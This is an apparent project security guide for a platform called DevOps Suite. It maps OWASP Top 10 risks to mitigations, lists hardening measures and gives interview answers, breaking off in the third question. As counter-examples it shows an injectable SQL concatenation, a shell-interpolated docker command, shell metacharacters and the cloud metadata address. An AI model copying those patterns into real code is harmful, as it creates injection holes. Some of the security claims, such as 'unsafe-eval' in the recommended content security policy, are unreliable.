







# OWASP Top 10 & Enterprise Security Hardening

## Overview & Architecture Context

DevOps Suite is an enterprise-grade developer productivity platform combining a Spring Boot 3.x monolith backend, React 18 single-page application frontend, PostgreSQL database, Redis 7 cache/rate-limiter, Elasticsearch log aggregation cluster, and Docker sandboxed multi-language code execution. Because the platform provides real-time collaborative IDE capabilities, project management, and untrusted arbitrary code execution (Python, JavaScript, Java, C++), security cannot be treated as an afterthought or bolted on at the edge. 

Instead, DevOps Suite adopts a **multi-layered Defense-in-Depth** strategy. Every layer—from Nginx reverse proxies, perimeter filters, Spring Security authorization chains, and domain service checks down to isolated Linux kernel namespaces and non-root cgroups—enforces strict zero-trust principles.

This guide provides an exhaustive mapping of how DevOps Suite mitigates the **OWASP Top 10 (2021)** security risks, details the enterprise security hardening checklist, and presents comprehensive technical interview question-and-answer pairs ranging from basic foundational concepts to principal-level architecture scenarios.

---

## Defense-in-Depth Architecture



---

## Section 1: OWASP Top 10 (2021) Mapping in DevOps Suite

The following mitigation matrix illustrates the correlation between OWASP Top 10 vulnerabilities, the attack surface within DevOps Suite, the specific mitigations implemented, and the concrete codebase components responsible.

| OWASP Vulnerability | DevOps Suite Attack Surface | Primary Mitigation Strategy | Key Codebase Components |
|---|---|---|---|
| **A01: Broken Access Control** | Project tasks, code files, administrative metrics, cross-tenant project manipulation | Two-tier RBAC (`ROLE_ADMIN` vs `ROLE_USER`; `OWNER` > `ADMIN` > `MEMBER` > `VIEWER`), explicit project membership validation in domain services, Redis JWT blacklist on logout | `SecurityConfig.java`, `ProjectMemberRepository.java`, `ProjectService.java`, `StompAuthChannelInterceptor.java` |
| **A02: Cryptographic Failures** | Stored user passwords, JWT signatures, secrets in source code, network transit | BCrypt cost factor 12, HMAC-SHA256 tokens, TLS enforcement, `.env.template` secret isolation (no credentials in Git) | `SecurityConfig.java`, `JwtUtils.java`, `application.yml`, `.env.template` |
| **A03: Injection** | SQL via search/filter inputs; Command Injection via Docker execution parameters | Hibernate/JPA parameterized queries (100% ORM, 0% raw string concatenation); Docker Java Client array arguments without shell interpolation | `TaskRepository.java`, `IdeFileRepository.java`, `DockerSandbox.java`, `ExecutionService.java` |
| **A04: Insecure Design** | Infinite loops / malicious code execution consuming host CPU/RAM; API flooding | Ephemeral isolated Docker sandboxes (`--memory=256m`, `--cpus=1`, `--read-only`, 30s timeout), multi-tier Redis sliding-window rate limiters | `DockerSandbox.java`, `RateLimitFilter.java`, `ExecutionQueueWorker.java` |
| **A05: Security Misconfiguration** | Default credentials, unauthenticated Actuator / Prometheus metrics, permissive CORS | Explicit permit-lists in `SecurityConfig`, strict CORS whitelist, custom `AuthenticationEntryPoint`, Nginx Basic Auth on Grafana (:8080) & Kibana (:8083) | `SecurityConfig.java`, `nginx/admin-proxy.conf`, `CustomAuthEntryPoint.java` |
| **A06: Vulnerable & Outdated Components** | Outdated NPM/Maven libraries, base container vulnerabilities | Alpine-based minimal base images, Dependabot / GitHub Actions vulnerability auditing, multi-stage Docker builds | `pom.xml`, `package.json`, `Dockerfile`, `.github/workflows/deploy.yml` |
| **A07: Identification & Auth Failures** | Credential stuffing, brute-force password attacks, timing attacks, weak passwords | Strict auth rate limiting (20 req/min/IP), regex password complexity rules, constant-time hash comparisons, short-lived 1h access tokens | `RateLimitFilter.java`, `AuthService.java`, `JwtUtils.java`, `UserService.java` |
| **A08: Software & Data Integrity Failures** | Untracked schema corruption, unverified third-party scripts, state tampering | Flyway version-controlled migrations (V1-V16) with SHA-256 checksum validation, lockfiles (`package-lock.json`), immutable container base tags | `src/main/resources/db/migration/`, `flyway-core`, `pom.xml` |
| **A09: Security Logging & Monitoring** | Undetected intrusion attempts, unmonitored privilege escalation, missing audit trails | Structured JSON logging with SLF4J/MDC correlation IDs, Elasticsearch log shipping, Prometheus metrics for blocked rates/failed logins | `ElasticsearchLogService.java`, `MdcLoggingFilter.java`, `AppMetrics.java` |
| **A10: Server-Side Request Forgery (SSRF)** | Docker sandbox attacking AWS metadata (169.254.169.254) or internal microservices; OAuth redirect hijacking | Complete container network isolation (`--network=none`), strict static OAuth2 redirect URI whitelists | `DockerSandbox.java`, `OAuth2AuthenticationSuccessHandler.java`, `application.yml` |

---

### Deep Dive into OWASP Mitigations



#### 1. A01: Broken Access Control
- **Two-Tier RBAC Architecture:** DevOps Suite distinguishes between **Global System Roles** (`ROLE_USER`, `ROLE_ADMIN`) and **Project-Level Scoped Roles** (`OWNER`, `ADMIN`, `MEMBER`, `VIEWER`). A user who holds `ROLE_USER` globally cannot interact with project resources unless explicitly granted a project membership entity.
- **Service-Level Ownership Verification:** While Spring Security filters enforce URL-pattern based authorization (e.g., `/api/admin/**` requires `ROLE_ADMIN`), domain-level multi-tenancy is enforced directly inside service classes such as `ProjectService.java` and `TaskService.java`. For every mutating operation (e.g., `updateTask(taskId, updateDto)`), the service extracts the authenticated user principal, performs a joined lookup against `ProjectMemberRepository`, and verifies that the user's role satisfies the required hierarchy:
  $$\text{OWNER} > \text{ADMIN} > \text{MEMBER} > \text{VIEWER}$$
- **WebSocket STOMP Channel Interception:** WebSocket endpoints represent a common bypass for access control. DevOps Suite registers a custom `StompAuthChannelInterceptor.java` on the inbound client channel. When a client attempts to subscribe to `/topic/tasks/{projectId}` or `/topic/logs/{projectId}`, the interceptor extracts the user authentication from the STOMP session header, queries the project repository, and explicitly rejects the `SUBSCRIBE` frame if the user does not possess active membership in `projectId`.
- **Immediate Invalidation via Redis Blacklist:** Stateless JWTs typically cannot be revoked before expiration. DevOps Suite implements a Redis-backed blacklist (`jwt:blacklist:{token}`). Upon user logout or role revocation, the token hash is pushed to Redis with a TTL equal to its remaining lifespan. `JwtRequestFilter.java` evaluates every incoming request against this store, rendering revoked tokens instantly inert.

#### 2. A02: Cryptographic Failures
- **BCrypt Password Hashing:** User passwords are encrypted using Spring Security's `BCryptPasswordEncoder` configured with an adaptive work factor (log rounds) of `12`. This corresponds to $2^{12} = 4,096$ iterations of the Blowfish key expansion cipher, requiring approximately 250–350ms of CPU time per hash calculation on modern hardware, preventing offline GPU rainbow table attacks.
- **HMAC-SHA256 Token Signing:** Authentication tokens use HMAC-SHA256 signatures with a cryptographically secure 256-bit or 512-bit signing secret injected via environment variables. Short expiration lifespans (1 hour for access tokens, 7 days for refresh tokens) limit exposure windows.
- **Zero Hardcoded Secrets Policy:** All production credentials (database passwords, Redis connection URIs, JWT signing keys, OAuth2 client secrets) are strictly prohibited from Git tracking. The codebase provides `.env.template` containing placeholder variable schemas. Local and production environments populate these variables via secret injection or environment files that are ignored via `.gitignore`.
- **Transport Security:** All communication in production is forced over TLS 1.3/1.2. The Nginx reverse proxy enforces HTTP Strict Transport Security (HSTS) with `max-age=31536000; includeSubDomains; preload`, eliminating SSL-stripping vectors.

#### 3. A03: Injection
- **SQL Injection Prevention:** DevOps Suite uses Spring Data JPA backed by Hibernate 6. All queries are declared using Spring Data derived query methods (e.g., `findByProjectIdAndStatus(Long projectId, TaskStatus status)`) or explicitly parameterized JPQL queries with `:param` named parameters. No raw SQL concatenation (`"SELECT * FROM users WHERE email = '" + input + "'"` ) exists anywhere in the repository. Hibernate handles strict typing, parameter binding, and literal escaping at the JDBC driver boundary.
- **Command Injection Prevention in Sandboxes:** The code execution engine executes arbitrary user-supplied code (Python, C++, Java, Node.js). A naive approach would invoke host shell processes via `Runtime.getRuntime().exec("docker run ... " + userCode)`. DevOps Suite eliminates this risk by using the official `com.github.docker-java` API. Container creation parameters, entrypoint commands, and runtime flags are passed as structured arrays of strings (e.g., `new String[]{"python", "/app/main.py"}`), entirely bypassing the host `/bin/sh` or `cmd.exe` shell interpreters. Shell metacharacters such as `;`, `&&`, `|`, `` ` ``, and `$(...)` are treated as literal arguments rather than executable control operators.

#### 4. A04: Insecure Design
- **Sandboxed Execution Defense:** The platform is architected around the core assumption that code submitted by users to `DockerSandbox.java` is potentially malicious. To safeguard the host:
  - Ephemeral containers are created per execution and immediately destroyed on completion.
  - Containers execute with `--network=none`, completely disabling container network interfaces and routing tables.
  - The root filesystem is mounted strictly read-only (`--read-only`), with user code executed out of an isolated in-memory `tmpfs` volume or bounded ephemeral scratch mount.
  - Strict cgroup constraints are enforced: `--memory=256m`, `--memory-swap=256m`, `--cpus=1.0`, and process limits (`pids-limit=64`) to neutralize fork bombs.
  - A strict 30-second watchdog timer forcefully kills any container exceeding runtime limits.
- **Fair Queuing Architecture:** Ingestion of code execution requests is decoupled from container spinning via `ExecutionQueueWorker.java`. This prevents resource starvation and denial-of-service where a single tenant floods the backend with execution requests.

#### 5. A05: Security Misconfiguration
- **Explicit Permit Lists:** Spring Security's `SecurityFilterChain` in `SecurityConfig.java` defines an explicit allowlist. Any endpoint not explicitly matched by `.permitAll()` defaults to `.authenticated()`.
- **Custom AuthenticationEntryPoint:** Default Spring Boot 401/403 responses often leak internal framework version strings, stack traces, and class names. DevOps Suite configures a custom `AuthenticationEntryPoint` that intercepts unauthorized requests and formats a sanitized, uniform JSON response: `{"status": 401, "error": "Unauthorized", "message": "Full authentication is required to access this resource"}`.
- **Strict CORS Configuration:** `CorsConfigurationSource` explicitly whitelists the frontend development (`http://localhost:5173`) and production domains. Wildcards (`*`) are disallowed for `Access-Control-Allow-Origin` when `AllowCredentials` is set to `true`.
- **Isolated Admin Infrastructure:** Grafana (:8080) and Kibana (:8083) are not exposed directly to the public network. They reside on the internal Docker `observability` network and are fronted by Nginx reverse proxy blocks requiring HTTP Basic Auth credentials managed outside the application database.

#### 6. A06: Vulnerable and Outdated Components
- **Minimal Distroless / Alpine Images:** Production Docker containers for the Spring Boot backend utilize lightweight `eclipse-temurin:21-jre-alpine` images, drastically minimizing the attack surface by excluding unused system utilities, compilers, and package managers (e.g., `curl`, `wget`, `netcat`).
- **Automated Dependency Auditing:** GitHub Actions CI/CD workflows run automated vulnerability scanners (`mvn dependency-check:check` and `npm audit`) on every pull request, halting builds if high-severity CVEs are introduced.
- **Multi-Stage Builds:** The build toolchains (Maven, Node/Vite) remain strictly inside disposable builder stages, ensuring that production container images contain solely compiled runtime artifacts (`.jar` and minified static assets).

#### 7. A07: Identification and Authentication Failures
- **Sliding-Window Rate Limiting:** `RateLimitFilter.java` integrates with Redis to track request frequencies per client IP and endpoint tier. The `/api/auth/**` endpoints are constrained to **20 requests per minute**. Attackers attempting credential stuffing or dictionary attacks are met with HTTP `429 Too Many Requests`.
- **Constant-Time Verification:** Password comparison uses BCrypt's constant-time byte-array comparison routine, preventing side-channel timing attacks that infer correct password prefixes by measuring millisecond response latency deltas.
- **Uniform Error Messages:** Login failures consistently return `"Invalid email or password"`, regardless of whether the email does not exist in the database or the password was incorrect, neutralizing user enumeration attacks.

#### 8. A08: Software and Data Integrity Failures
- **Flyway Migration Integrity:** DevOps Suite manages all PostgreSQL schema evolutions through 16 version-controlled Flyway migrations (`V1__init_schema.sql` through `V16__...`). Flyway computes SHA-256 checksums for every migration file and records them in the `flyway_schema_history` table. If a developer or attacker modifies an applied migration script in-place, Flyway detects a checksum mismatch and halts application startup immediately.
- **Deterministic Builds:** Package dependencies are pinned with exact versions via `pom.xml` and `package-lock.json` with SHA-512 subresource integrity hashes, preventing upstream repository tampering attacks.

#### 9. A09: Security Logging and Monitoring
- **MDC Correlation & Audit Trails:** Every HTTP request passing through `JwtRequestFilter` and `MdcLoggingFilter` is stamped with a unique `traceId` (UUID) and the authenticated user's ID in Logback's Mapped Diagnostic Context (MDC). All subsequent log messages include these metadata tags.
- **Elasticsearch Log Pipeline:** System logs are streamed in structured JSON format into daily Elasticsearch indices (`devopssuite-logs-yyyy.MM.dd`). Index Lifecycle Management (ILM) policies automatically transition indices through hot/warm/cold tiers and enforce a 180-day retention purge.
- **Security Metrics:** Prometheus records custom security counters (`devopssuite_rate_limit_blocked_total`, `devopssuite_auth_failures_total`). Grafana dashboards trigger alerts on sudden spikes in 401/403/429 status codes.

#### 10. A10: Server-Side Request Forgery (SSRF)
- **Zero Container Networking:** Untrusted code running in `DockerSandbox.java` could attempt to pivot and probe the internal Docker network (`172.x.x.x`), query the PostgreSQL database (:5432), hit Redis (:6379), or query cloud instance metadata services (`http://169.254.169.254`). Passing `--network=none` tears down container network interfaces (except `lo`), making network socket creation fail at the Linux kernel level.
- **Strict OAuth2 Callback Validation:** OAuth2 authentication flows (Google and GitHub) strictly enforce pre-registered redirect URIs in `application.yml`. Dynamic redirect parameter tampering is rejected, preventing authorization code exfiltration to malicious actor endpoints.

---

## Section 2: Security Best Practices Checklist

The following checklist details the defense-in-depth principles and operational hardening standards implemented across the DevOps Suite stack.



### 1. Principle of Least Privilege (PoLP)
- **Database User Isolation:** The application connects to PostgreSQL using a dedicated `devopssuite_app` database user. This user owns tables within the `devopssuite` schema but has zero superuser rights, cannot alter server configurations, cannot access other databases, and cannot load PostgreSQL untrusted C extensions.
- **Docker Daemon Socket Protection:** The Spring Boot backend interacts with the Docker daemon via standard Unix socket (`/var/run/docker.sock`) or TLS-secured TCP socket. The container execution configuration strips all Linux kernel capabilities (`--cap-drop=ALL`) from user sandbox containers, preventing privilege escalation.
- **Role Hierarchy Enforcement:** Project actions are restricted to the minimum required authority:
  - `VIEWER`: Read-only access to files, tasks, and execution logs. Cannot trigger code execution or edit tasks.
  - `MEMBER`: Can create and edit tasks assigned to them; can run code sandboxes; can modify files in the IDE.
  - `ADMIN`: Can manage project settings, invite/remove members, and assign roles up to `ADMIN`.
  - `OWNER`: Full project control, including project deletion, role transfers, and billing settings.

### 2. Defense in Depth (Layered Security Model)
An incoming request must pass through multiple independent verification barriers:
1. **Perimeter Layer (Nginx):** Terminates TLS, enforces security headers, applies Basic Auth for administrative telemetry endpoints (Grafana/Kibana), and routes API traffic.
2. **Network Layer (Docker Bridge Isolation):** The application is segregated into two isolated bridge networks:
   - `app` network: Connects Frontend, Backend, PostgreSQL, and Redis.
   - `observability` network: Connects Backend, Elasticsearch, Kibana, Prometheus, and Grafana.
   - Postgres and Redis are unreachable from the public internet and isolated from the observability tools.
3. **Application Gateway Layer (`RateLimitFilter` & `JwtRequestFilter`):** Checks Redis rate limits, parses JWT, validates cryptographic signature, and checks the Redis token revocation blacklist.
4. **Spring Security Layer (`SecurityFilterChain`):** Enforces URL-pattern authorization rules and role requirements (`ROLE_ADMIN` vs `ROLE_USER`).
5. **Domain Service Layer (`ProjectService` / `TaskService`):** Checks project-level membership entities and enforces role hierarchy requirements before querying or mutating state.

### 3. Secure HTTP Response Header Injection
Nginx and Spring Security inject enterprise-grade HTTP security headers on all responses:

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; connect-src 'self' wss: https:;
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: geolocation=(), camera=(), microphone=(), payment=()
```

- **`X-Frame-Options: DENY`**: Prevents DevOps Suite pages from being embedded within `<frame>`, `<iframe>`, or `<object>` elements on external domains, neutralizing Clickjacking attacks.
- **`X-Content-Type-Options: nosniff`**: Instructs browsers to adhere strictly to the declared MIME type, preventing MIME-type sniffing attacks where executable scripts are masked as images.
- **`Strict-Transport-Security (HSTS)`**: Forces user agents to communicate exclusively over HTTPS for a minimum duration of one year.

---

## Section 3: In-Depth Interview Questions & Answers

### 🟢 Basic Level

#### Q1: What is the OWASP Top 10, and why is it important for a full-stack platform like DevOps Suite?
**Answer:**
The **OWASP Top 10** represents the consensus standard for the most critical security risks facing modern web applications, compiled by the Open Web Application Security Project (OWASP).

For a platform like DevOps Suite, adhering to the OWASP Top 10 is foundational because the application combines several high-risk vectors:
1. **User Authentication & Multi-Tenancy:** Managing individual user identities across collaborative team projects requires rigorous access control (A01) and credential safety (A07).
2. **Arbitrary Code Execution:** The built-in cloud IDE runs user-provided Python, Java, JavaScript, and C++ code. Without strict insecure design mitigation (A04) and injection prevention (A03), this functionality could allow host compromise.
3. **Sensitive Data Storage:** Projects, source code, task details, and credentials reside in PostgreSQL and Redis. Protection against cryptographic failures (A02) and data integrity issues (A08) is vital.
4. **Complex Telemetry:** Centralizing logs in Elasticsearch and metrics in Prometheus introduces logging and monitoring requirements (A09) to ensure security events are tracked without leaking secrets.

By mapping system components directly to OWASP standards, the architecture ensures that security controls are applied consistently across all layers rather than in ad-hoc fashion.

---

#### Q2: How does DevOps Suite protect against SQL Injection?
**Answer:**
DevOps Suite eliminates SQL Injection (OWASP A03) by relying on **Spring Data JPA** and **Hibernate 6** with parameterized query mechanisms:

1. **Derived Query Methods:** 
   Standard queries are generated via Spring Data method signatures, such as:
   ```java
   public interface TaskRepository extends JpaRepository<Task, Long> {
       List<Task> findByProjectIdAndStatus(Long projectId, TaskStatus status);
   }
   ```
   Under the hood, Spring Data translates this into a prepared statement with parameterized placeholders (`?1`, `?2`).
2. **Explicit JPQL Named Parameters:**
   Where custom queries are required, named parameters are used:
   ```java
   @Query("SELECT f FROM IdeFile f WHERE f.project.id = :projectId AND f.path = :path")
   Optional<IdeFile> findFileByProjectPath(@Param("projectId") Long projectId, @Param("path") String path);
   ```
   Hibernate binds `:projectId` and `:path` as separate data parameters via the PostgreSQL JDBC driver. The SQL command structure and data values are parsed separately by the database engine.
3. **Zero String Concatenation:**
   No dynamic SQL is constructed via string concatenation (e.g., `"WHERE name = '" + input + "'"`). Even full-text search and filtering in tasks and logs utilize JPA criteria builders or parameterized queries.

---

#### Q3: Why is returning generic error messages crucial during authentication, and how is it implemented?
**Answer:**
Returning generic error messages is a critical defense against **User Enumeration** (OWASP A07). 

If an authentication endpoint returns different responses for different failure modes:
- `"User with email foo@example.com does not exist"` (HTTP 404)
- `"Incorrect password for user foo@example.com"` (HTTP 401)

An attacker can automate requests against the login API to discover which email addresses are registered on the platform. This list can then be targeted for credential stuffing, phishing, or brute-force attacks.

**Implementation in DevOps Suite:**
In `AuthService.java` and `SecurityConfig.java`, authentication attempts are handled symmetrically:
```java
public AuthResponse login(LoginRequest request) {
    try {
        Authentication auth = authenticationManager.authenticate(
            new UsernamePasswordAuthenticationToken(request.getEmail(), request.getPassword())
        );
        // Generate JWT upon success
        return generateAuthResponse(auth);
    } catch (BadCredentialsException | UsernameNotFoundException ex) {
        // Uniform message regardless of cause
        throw new InvalidCredentialsException("Invalid email or password");
    }
}
```
Both non-existent emails and incorrect passwords throw an exception mapped to HTTP 401 with identical response payloads:
```json
{
